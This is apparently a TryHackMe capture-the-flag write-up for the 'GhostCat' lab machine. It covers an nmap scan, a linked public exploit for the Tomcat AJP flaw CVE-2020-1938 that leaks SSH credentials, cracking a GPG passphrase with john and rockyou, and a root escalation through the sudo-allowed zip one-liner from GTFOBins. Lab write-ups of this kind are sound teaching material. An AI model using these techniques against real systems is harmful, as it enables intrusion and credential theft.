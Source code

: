 #### IP `10.10.86.161`

#### 1. Scanning

```
 $ nmap -Pn -A 10.10.86.161    
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-11 13:30 EST
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 27.53% done; ETC: 13:30 (0:00:11 remaining)
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 30.93% done; ETC: 13:30 (0:00:16 remaining)
Stats: 0:00:15 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 49.12% done; ETC: 13:30 (0:00:16 remaining)
Nmap scan report for 10.10.86.161
Host is up (0.20s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.68 seconds
```

There are 3 open ports: 22,53,8080. There is `Tomcat 9.0.30` as web server.
                                     
I tried to find some place to upload rev shell but without luck as access is forbidden.


#### 2. Finding an exploit

I found an exploit which abuses AJP protocol, which trusts incoming HTTP connections and fitted perfectly for Tomcat 9.0.30.

Here are more informations if needed:

`https://nvd.nist.gov/vuln/detail/CVE-2020-1938`

I downloaded it here `https://www.exploit-db.com/exploits/48143` and ran with python.

Luckily, I got a username and his password, so it was possible to ssh a server.

```
  <description>
     Welcome to GhostCat
	skyfuck:873028***********ksalks
  </description>

</web-app>
```

#### 3. John

In home directory there are two files: one gpg and second asc. I decoded gpg to john's format

```
──(kali㉿kali)-[~]
└─$ gpg2john tryhackme.asc > hash
```

and then bruteforce it.

`john --wordlist=/usr/share/wordlists/rockyou.txt hash`    

So I got a passphrase to open asc file.     1 ⨯

```                                                              
└─$ john hash --show                                     
tryhackme:ale*****ru:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc
```



#### GPG import / decrypt + entering passphrase alexandru to get merlin's pass

`skyfuck@ubuntu:~$ gpg --import tryhackme.asc`

Which gave me username and pass of another user:

`merlin:asuy**********3k12j3kj123`

It was also possible to cat user.txt flag at this point.


#### 6. sudo -l as merlin and then escalate to root

I checked what sudo permissions merlin has:

```
merlin@ubuntu:/home/skyfuck$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

It means that root coumd be obtained with zip.

As always GTFO BINS comes handful:

`https://gtfobins.github.io/gtfobins/zip/`

```
TF=$(mktemp -u)
zip $TF /etc/hosts -T -TT 'sh #'
rm $TF
```

So here it is:

```
merlin@ubuntu:/home/skyfuck$ TF=$(mktemp -u)
merlin@ubuntu:/home/skyfuck$ sudo -u root /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)

```

and I am root:

```
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls -al
total 32
drwx------  4 root root 4096 Mar 10  2020 .
drwxr-xr-x 22 root root 4096 Mar 10  2020 ..
-rw-------  1 root root   15 Mar 10  2020 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4096 Mar 10  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   17 Mar 10  2020 root.txt
drwxr-xr-x  2 root root 4096 Mar 10  2020 ufw
# cat root.txt
THM{*********
# 
